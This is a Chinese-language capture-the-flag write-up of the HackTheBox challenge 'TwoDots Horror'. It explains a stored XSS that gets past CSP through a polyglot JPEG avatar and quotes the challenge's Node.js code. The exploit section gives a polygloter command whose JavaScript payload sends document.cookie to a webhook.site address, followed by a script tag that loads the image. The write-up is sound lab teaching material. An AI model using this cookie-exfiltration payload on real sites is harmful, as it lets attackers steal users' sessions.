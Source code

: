 ```yaml
---
title: TwoDots Horror
categories:
  - CTF
tags:
  - XSS，
  - CSP绕过
---
```

## 0x00 前言
[TwoDots Horror](https://app.hackthebox.com/challenges/twodots-horror)是一道有关XSS，和CSP绕过的题。黑盒的话也能做，只是要全靠猜。白盒的话，做的更快。这道题非常有趣，在[Bookworm](https://app.hackthebox.com/machines/Bookworm)这台机器上的User部分也用到了大概这种思路。

---
## 0x01 黑盒思路
![1.png](/assets/img/2023-12-1-TwoDots-Horror/1.png)
映入眼帘的是一个登录与注册页面，注册一个账号进去后发现有两个功能。
1. 输入一段话，必须有两个`.`，而且需要管理员审核，就说明管理员会看到我们输入的东西。
2. 可以上传一个头像。
![2.png](/assets/img/2023-12-1-TwoDots-Horror/2.png)
![3.png](/assets/img/2023-12-1-TwoDots-Horror/3.png)
思路：输入js代码盗取管理员cookie，但是输入js代码有限制，只能通过加载图片，来执行任意js代码。

---
## 0x02 白盒思路
```js
router.post('/api/submit', AuthMiddleware, async (req, res) => {

    return db.getUser(req.data.username)

        .then(user => {

            if (user === undefined) return res.redirect('/');

            const { content } = req.body;

            if(content){

                twoDots = content.match(/\./g);

                if(twoDots == null || twoDots.length != 2){

                    return res.status(403).send(response('Your story must contain two sentences! We call it TwoDots Horror!'));

                }

                return db.addPost(user.username, content)

                    .then(() => {

                        bot.purgeData(db);

                        res.send(response('Your submission is awaiting approval by Admin!'));

                    });

            }

            return res.status(403).send(response('Please write your story first!'));

        })

        .catch(() => res.status(500).send(response('Something went wrong!')));

});
```
这段代码有限制了输入的内容必须有且只有两个`.`，提交之后会储存到数据库，而且没有转义任何东西，之后跟进到`bot.js`。
```js
const cookies = [{

    'name': 'flag',

    'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'

}];

async function purgeData(db){

    const browser = await puppeteer.launch(browser_options);

    const page = await browser.newPage();

  

    await page.goto('http://127.0.0.1:1337/');

    await page.setCookie(...cookies);

  

    await page.goto('http://127.0.0.1:1337/review', {

        waitUntil: 'networkidle2'

    });

  

    await browser.close();

    await db.migrate();

};
```
flag藏在cookie中，这段代码的意思是机器人会访问网站，然后设置cookie为flag，然后跟进到/review路由。
```js
router.get('/review', async (req, res, next) => {

    if(req.ip != '127.0.0.1') return res.redirect('/');

  

    return db.getPosts(0)

        .then(feed => {    

            res.render('review.html', { feed });

        })

        .catch(() => res.status(500).send(response('Something went wrong!')));

});
```
限制了只有本地能访问，然后从数据库中提取数据，放到review.html模板中。这个过程也是没有做任何转义。
所以思路和黑盒一样。只是白盒做起来更加清晰。

---
## 0x03 利用
### 1. 选择接收cookie的方式
1. 使用https://webhook.site/
2. 使用vps开启一个http服务器，例如python开启的http服务器。
---
### 2. 生成包含js代码的图片。
在UploadHelper.js这个文件里的代码中做了对图片的限制
```js
module.exports = {

    async uploadImage(file) {

        return new Promise(async (resolve, reject) => {

            if(file == undefined) return reject(new Error("Please select a file to upload!"));

            try{

                if (!isJpg(file.data)) return reject(new Error("Please upload a valid JPEG image!"));

                const dimensions = sizeOf(file.data);

                if(!(dimensions.width >= 120 && dimensions.height >= 120)) {

                    return reject(new Error("Image size must be at least 120x120!"));

                }

                uploadPath = path.join(__dirname, '/../uploads', file.md5);

                file.mv(uploadPath, (err) => {

                    if (err) return reject(err);

                });

                return resolve(file.md5);

            }catch (e){

                console.log(e);

                reject(e);

            }

        });

    }

}
```
使用`isJpg()`函数对图片做了检测，还限制了图片的大小必须在120x120以内。
可以使用脚本生成一个带有js代码的图片。
地址：https://github.com/s-3ntinel/imgjs_polygloter
也可以参考文件的方法自己生成一个带有js代码的图片。
地址：https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs

我的话就采取捷径，使用脚本了，但是文章一定要看，知其然知其所以然。
```bash
python .\img_polygloter.py jpg --height 120 --width 120 --payload 'window.location.href="https://webhook.site/6d242a56-5fc5-4f99-bafe-5512a88bd38d/?c="+document.cookie;' --output xss.jpg
```
然后上传图片并访问，得知地址。
```
http://159.65.20.166:30850/api/avatar/mao
```
其实不带参数也能访问。

---
### 输入包含该脚本的js代码

```js
<script charset="ISO-8859-1" src="/api/avatar/mao"></script>..
```
1. `ISO-8859-1` 是一个字符集（Character Set）的名称，也被称为 Latin-1。它是国际标准化组织（ISO）定义的字符编码，其中包含了西欧语言的大多数字符。
---
### 接收flag
![4.png](/assets/img/2023-12-1-TwoDots-Horror/4.png)

---
## 参考
https://salucci.ch/2023/05/20/xss-with-a-jpg-jpeg-to-bypass-csp/
